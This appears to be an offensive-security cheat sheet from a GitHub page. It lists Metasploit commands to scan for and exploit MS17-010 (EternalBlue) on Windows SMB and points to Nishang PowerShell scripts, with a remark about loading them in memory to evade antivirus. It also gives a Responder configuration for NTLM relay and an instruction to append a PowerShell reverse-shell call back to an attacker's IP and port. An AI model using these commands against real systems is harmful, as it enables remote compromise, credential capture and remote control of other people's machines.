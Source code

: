 >> _Metasploit-Recon_
````
use auxiliary/scanner/smb/smb_ms17_010
````

>> _Metasploit-Exploit_
````
use exploit/windows/smb/ms17_010_eternalblue
````

> ### __Nishang__

* * Nishang
* * Powershell

> _As Nishang says in his Github repository (a very interesting repository) his scripts are tags as malicious, which makes it very difficult for an antivirus to let them touch the "disk", that is why the "memory injection" method is used for Powershell._

* * __https://github.com/samratashok/nishang__

* * __Nishang With Ntlmrelayx__

>> _responder.conf_

````
[Responder Core]

; Servers to start
SQL = On
SMB = Off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
````

>> _Nishang Shell Conf_

* __Open Powershelltcp.ps1 and at the end, paste this (change ip and port)__

* * Invoke-PowerShellTcp -Reverse -IPAddress ip -Port port

````Powershell
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress ip -Port port # <--- Here
````
